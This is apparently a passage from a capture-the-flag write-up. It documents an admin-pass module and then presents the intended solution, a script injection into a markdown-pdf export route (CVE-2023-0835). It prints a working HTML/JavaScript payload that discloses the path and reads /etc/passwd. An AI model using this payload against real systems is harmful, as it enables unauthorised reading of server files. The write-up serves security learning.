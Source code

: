 1. Checks if a file with the name matching the `ACCESS_PASS` exists.
2. Reads the contents of the file to ensure it's not empty.
3. Compares the provided `pass` with the current `ACCESS_PASS`.

---

##### Return Values:

- Returns `true` if the file exists, is not empty, and the `pass` matches `ACCESS_PASS`.
- Returns `false` otherwise or on any error.

---

####  Summary

| Function       | Purpose                           | Notes                                  |
|----------------|-----------------------------------|----------------------------------------|
| `rotatePass()` | Rotates the admin access pass     | Writes it to disk with a short message |
| `verifyPass()` | Verifies a given pass             | Returns true/false based on file state |

---

**Module Export:**

```js
module.exports = { verifyPass, rotatePass };
```

This allows the functions to be used throughout the application (e.g., on server startup or during admin authentication).

---

## Intended Solution

Okay, now let’s take a step back and look at what we need to do. For users without the admin role, all inputs in the document are sanitized using ```sanitizeHtml```. However, for the admin role, in the ```/document/debug/export``` route, we are allowed to inject arbitrary code to be passed into generatePDF. Here's the generatePDF function: take note that it uses the markdown-pdf package, which is vulnerable to **CVE-2023-0835**, allowing Arbitrary File Read due to improper validation of user-controlled Markdown input:

```html
<script>
    // Path Disclosure
    document.write(window.location);
    // Arbitrary Local File Read
    xhr = new XMLHttpRequest;
    xhr.onload=function(){document.write((this.responseText))};
    xhr.open("GET","file:///etc/passwd");
    xhr.send();
</script>

```
